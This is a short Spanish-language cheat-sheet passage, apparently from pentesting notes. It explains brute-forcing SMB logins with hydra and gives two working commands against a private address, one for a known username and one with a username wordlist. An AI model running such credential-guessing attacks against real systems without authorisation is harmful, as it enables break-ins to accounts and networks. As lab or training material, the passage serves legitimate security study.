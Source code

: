 
---
## Ataques de Fuerza bruta a SMB:
En caso no sepamos el usuario deberemos poner directamente el parametro *-L* y especificar una de diccionarios para usuarios.

```bash
# En caso sepamos el usuario:
hydra -l usuario -P contraseñas.txt smb://192.168.1.10

# En caso no lo sepamos
hydra -L usuarios.txt -P contraseñas.txt smb://192.168.1.10
```

